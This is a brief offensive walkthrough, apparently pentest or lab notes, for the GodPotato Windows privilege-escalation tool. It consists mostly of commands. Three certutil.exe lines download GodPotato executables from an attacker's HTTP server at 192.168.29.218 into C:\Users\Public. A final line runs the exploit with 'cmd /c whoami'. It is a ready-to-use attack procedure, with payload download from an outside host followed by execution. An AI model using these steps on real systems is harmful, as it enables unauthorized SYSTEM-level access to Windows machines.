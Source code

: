 
[Github GodPotato](https://github.com/BeichenDream/GodPotato)

### Download Payload to target machine

Use ``certutil.exe`` to fetch GodPotato binaries from your HTTP server

```cmd
certutil.exe -urlcache -split -f "http://192.168.29.218/GodPotato-NET2.exe" C:\Users\Public\GodPotato-NET2.exe
```

```cmd
certutil.exe -urlcache -split -f "http://192.168.29.218/GodPotato-NET35.exe" C:\Users\Public\GodPotato-NET35.exe
```

```cmd
certutil.exe -urlcache -split -f "http://192.168.29.218/GodPotato-NET4.exe" C:\Users\Public\GodPotato-NET4.exe
```

---

### Execute Exploit

```cmd
C:\USers\Public\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

